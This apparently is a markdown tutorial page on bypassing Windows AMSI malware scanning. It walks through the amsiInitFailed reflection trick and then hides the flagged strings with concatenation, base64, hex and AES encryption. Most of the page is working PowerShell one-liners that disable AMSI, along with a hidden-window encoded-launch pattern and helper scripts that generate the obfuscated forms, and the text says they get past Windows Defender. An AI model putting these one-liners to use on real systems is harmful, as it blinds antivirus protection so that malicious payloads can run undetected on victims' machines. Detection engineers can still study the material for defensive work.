

# Basic Bypass
AMSI generally detects by the way a process is invoked via the command line an regexs. Thse regexs and basic manual bypass techniques are discussed [here](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/). Bascially, AMSI will look for commands which will disable AMSI detection. For example, a simple bypass can be created by concatenating AMSI strings together.
```powershell
PS C:\Users\nedry> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
At line:1 char:1
+ [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetF ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS C:\Users\nedry> AmsiUtils
At line:1 char:1
+ AmsiUtils
+ ~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS C:\Users\nedry> amsiInitFailed
At line:1 char:1
+ amsiInitFailed
+ ~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
PS C:\Users\nedry> 'Am'+'si'+'Ut'+'il'+'s'
AmsiUtils
PS C:\Users\nedry> 'am'+'si'+'In'+'it'+'Fa'+'il'+'ed'
amsiInitFailed
```

Using the above simple technique, the AMSI disabling code can be run without interruption by Windows Defender. This detection however can be easily extended within AMSI in the future, obfuscating these calls as much as possible, such as doing base64 encoding, hex encoding and encryption can be leveraged to permute the strings in countless combinations. Some of these methods are below.

## Execution Methods
The 'traditional' way to executing powershell payloads is now flagged by AMSI as suspicious. In testing, using just `-enc` was found to bypass these detections.
```powershell
# traditional method
Powershell -noP -sta -w 1 -enc <BASE-64-STRING>
```
Breaking it down, each arg:
* -noP
    * No Profile
* -sta
    * Singe Threat Appartment
* -w l
    * Launch the window hidden
* -enc
    * base64 encoded script

## Base64 Encoding
Windows uses `UTF-16LE` as its default character set, so any work done on a non-windows platform will need to be encoded to this format prior to being Base64 encoded.
### Encoding on Linux
```bash
python3 -c 'import base64; print(base64.b64encode("AmsiUtils".encode("UTF-16LE")).decode("ascii"))'
QQBtAHMAaQBVAHQAaQBsAHMA
python3 -c 'import base64; print(base64.b64encode("amsiInitFailed".encode("UTF-16LE")).decode("ascii"))'
YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA==
```

### Encoding on Windows
Note, if AMSI is enabled, the string will need to be created via concatenation, otherwise AMSI will flag it as discussed earlier.
```powershell
[System.Convert]::ToBase64String([System.Text.Encoding]::UNICODE.GetBytes("Am"+"si"+"Ut"+"il"+"s"))
QQBtAHMAaQBVAHQAaQBsAHMA
[System.Convert]::ToBase64String([System.Text.Encoding]::UNICODE.GetBytes("am"+"si"+"In"+"it"+"Fa"+"il"+"ed"))
YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA==
```

### Decoding
```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

## Hex Encoding
This method requires a bit more work in code, but achieves the same goal as above.
### Linux
```bash
echo -n "AmsiUtils" | xxd -pu
416d73695574696c73
echo -n "amsiInitFailed" | xxd -pu
616d7369496e69744661696c6564
```

### Windows
```powerhsell
'Am'+'si'+'Ut'+'il'+'s' | Format-Hex -Encoding utf8


           00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

00000000   41 6D 73 69 55 74 69 6C 73                       AmsiUtils

'am'+'si'+'In'+'it'+'Fa'+'il'+'ed' | Format-Hex -Encoding utf8


           00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

00000000   61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64        amsiInitFailed
```

### Decoding
```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

## Encryption
Encryption can be used to further obfuscate the code. Doing so will make it much harder for AMSI to evolve to handle this use case.
### Raw Encryption Code
To develop this, the following powershell script was develoepd to perform the encryption. This powershell script will encrypt the sensitive strings then decrypt them as a PoC.
```powershell
# key
$rng=New-Object "System.Security.Cryptography.RNGCryptoServiceProvider"
$encKey=[System.Byte[]]::new(32) #256bit key
$rng.GetBytes($encKey)

#init vector - 128 bit block size
$initVector = [System.Byte[]]::new(16)
$rng.GetBytes($initVector)

# create the cipher
$aes=New-Object "System.Security.Cryptography.AesCryptoServiceProvider"
$aes.Key=$encKey
$aes.IV=$initVector

# do the encryption
$text='am'+'si'+'In'+'it'+'Fa'+'il'+'ed'
$ptBytes=[System.Text.Encoding]::UTF8.GetBytes($text)
$encryptor=$aes.CreateEncryptor()
$ctBytes=$encryptor.TransformFinalBlock($ptBytes,0,$ptBytes.Length)
[byte[]] $msg = $initVector + $ctBytes

# base64 encode the CT
$ct=[System.Convert]::ToBase64String($msg)
$key=[System.Convert]::ToBase64String($encKey)
Write-Output $ct
$aes.Dispose()
$rng.Dispose()

# Create the decrypto sp
$aes = New-Object "System.Security.Cryptography.AesCryptoServiceProvider"
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC

# decode the key and ct
$aes.Key = [System.Convert]::FromBase64String($key)
$rctBytes = [System.Convert]::FromBase64String($ct)

# extract the IV
$riv = $rctBytes[0..15]
$aes.IV = $riv

# get the decryption engine
$decryptor = $aes.CreateDecryptor()

# start at offset 16, and for length-16 (accounting for IV)
$rptBytes = $decryptor.TransformFinalBlock($rctBytes, 16, $rctBytes.Length - 16)

$pt_text=[System.Text.Encoding]::UTF8.GetString($rptBytes)

Write-Output $pt_text

$aes.Dispose()
```
The above will need to be converted to a one-liner which can be base64 encoded. This can be done with a python script which is included below.

```python
ps="""
raw script content"""
lines = ps.split('\n')
new_lines = []
one_liner = ""
for l in lines:
    if len(l) < 1:
        continue
    if l[0] == '#':
        continue
    new_lines.append(l + ';')
    one_liner = one_liner + l + ';'
for l in new_lines:
    print(l)
print(one_liner)   
```
And finally, as a one-liner:
```powershell
$rng=New-Object "System.Security.Cryptography.RNGCryptoServiceProvider";$encKey=[System.Byte[]]::new(32);$rng.GetBytes($encKey);$initVector = [System.Byte[]]::new(16);$rng.GetBytes($initVector);$aes=New-Object "System.Security.Cryptography.AesCryptoServiceProvider";$aes.Key=$encKey;$aes.IV=$initVector;$aes.Mode=[System.Security.Cryptography.CipherMode]::CBC;$text='am'+'si'+'In'+'it'+'Fa'+'il'+'ed';$ptBytes=[System.Text.Encoding]::UTF8.GetBytes($text);$encryptor=$aes.CreateEncryptor();$ctBytes=$encryptor.TransformFinalBlock($ptBytes,0,$ptBytes.Length);[byte[]] $msg = $initVector + $ctBytes;$ct=[System.Convert]::ToBase64String($msg);$key=[System.Convert]::ToBase64String($encKey);Write-Output $ct;$aes.Dispose();$rng.Dispose();$aes = New-Object "System.Security.Cryptography.AesCryptoServiceProvider";$aes.Key = [System.Convert]::FromBase64String($key);$rctBytes = [System.Convert]::FromBase64String($ct);$riv = $rctBytes[0..15];$aes.IV = $riv;$decryptor = $aes.CreateDecryptor();$rptBytes = $decryptor.TransformFinalBlock($rctBytes, 16, $rctBytes.Length - 16);$pt_text=[System.Text.Encoding]::UTF8.GetString($rptBytes);Write-Output $pt_text;$aes.Dispose();
CsQDBUNla4/kKvCTL3YicWrrqE+BQ8m5m76dDjrRx14=
amsiInitFailed
```
### Linux
The following python script can be used to encryt the strings which can be dropped in the powershell scripts. This depends on pycryptodome and python3.
```bash
pip3 install pycryptodome
```

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from Crypto.Random import get_random_bytes
import base64
import sys

data = sys.argv[1].encode('ascii')

# get key
key = get_random_bytes(32)

# 128 bit block size
iv = get_random_bytes(16)

cipher = AES.new(key, IV=iv, mode=AES.MODE_CBC)

ct = cipher.encrypt(pad(data, 16))

print(base64.b64encode(key).decode('ascii'))
print(base64.b64encode(iv + ct).decode('ascii'))
```
### Windows
```powershell
$rng=New-Object "System.Security.Cryptography.RNGCryptoServiceProvider";$encKey=[System.Byte[]]::new(32);$rng.GetBytes($encKey);$initVector = [System.Byte[]]::new(16);$rng.GetBytes($initVector);$aes=New-Object "System.Security.Cryptography.AesCryptoServiceProvider";$aes.Key=$encKey;$aes.IV=$initVector;$aes.Mode=[System.Security.Cryptography.CipherMode]::CBC;$text='Am'+'si'+'Ut'+'il'+'s';$ptBytes=[System.Text.Encoding]::UTF8.GetBytes($text);$encryptor=$aes.CreateEncryptor();$ctBytes=$encryptor.TransformFinalBlock($ptBytes,0,$ptBytes.Length);[byte[]] $msg = $initVector + $ctBytes;$ct=[System.Convert]::ToBase64String($msg);$key=[System.Convert]::ToBase64String($encKey);Write-Output $key;Write-Output $ct;$aes.Dispose();$rng.Dispose();
Cqao25t5gyuIKfpWciQbxgS+CfAufmcxqAHyCdLczrE=
3wfycXTLFIRbjpXisLIzm3o1AMANmut07q9UEFj57Ss=

$rng=New-Object "System.Security.Cryptography.RNGCryptoServiceProvider";$encKey=[System.Byte[]]::new(32);$rng.GetBytes($encKey);$initVector = [System.Byte[]]::new(16);$rng.GetBytes($initVector);$aes=New-Object "System.Security.Cryptography.AesCryptoServiceProvider";$aes.Key=$encKey;$aes.IV=$initVector;$aes.Mode=[System.Security.Cryptography.CipherMode]::CBC;$text='am'+'si'+'In'+'it'+'Fa'+'il'+'ed';$ptBytes=[System.Text.Encoding]::UTF8.GetBytes($text);$encryptor=$aes.CreateEncryptor();$ctBytes=$encryptor.TransformFinalBlock($ptBytes,0,$ptBytes.Length);[byte[]] $msg = $initVector + $ctBytes;$ct=[System.Convert]::ToBase64String($msg);$key=[System.Convert]::ToBase64String($encKey);Write-Output $key;Write-Output $ct;$aes.Dispose();$rng.Dispose();
EhV4nU6i9NioRnEEymuyCJH72rgEQZyiwVkeV0aGyfY=
wrUG7SKqAGsPFKXhwfG6LjJSAjc1VKDZnM8p4kvK/bk=
```
### Decrypting
To decrypt, need to set the Key and CT for each encrypted string
```powershell
$aes=New-Object "System.Security.Cryptography.AesCryptoServiceProvider";$aes.Key=[System.Convert]::FromBase64String("Cqao25t5gyuIKfpWciQbxgS+CfAufmcxqAHyCdLczrE=");$aes.Mode=[System.Security.Cryptography.CipherMode]::CBC;$rctBytes=[System.Convert]::FromBase64String("3wfycXTLFIRbjpXisLIzm3o1AMANmut07q9UEFj57Ss=");$riv=$rctBytes[0..15];$aes.IV=$riv;$decryptor=$aes.CreateDecryptor();$rptBytes=$decryptor.TransformFinalBlock($rctBytes,16,$rctBytes.Length-16);$pt_text=[System.Text.Encoding]::UTF8.GetString($rptBytes);$aes.Key=[System.Convert]::FromBase64String("EhV4nU6i9NioRnEEymuyCJH72rgEQZyiwVkeV0aGyfY=");$rctBytes=[System.Convert]::FromBase64String("wrUG7SKqAGsPFKXhwfG6LjJSAjc1VKDZnM8p4kvK/bk=");$riv = $rctBytes[0..15];$aes.IV = $riv;$decryptor = $aes.CreateDecryptor();$rptBytes = $decryptor.TransformFinalBlock($rctBytes, 16, $rctBytes.Length - 16);$pt_text2=[System.Text.Encoding]::UTF8.GetString($rptBytes);[Ref].Assembly.GetType('System.Management.Automation.'+$pt_text).GetField($pt_text2,'NonPublic,Static').SetValue($null,$true)
```
Other cryptographic transformations can be applied instead of AES, but why do that when AES is just fine!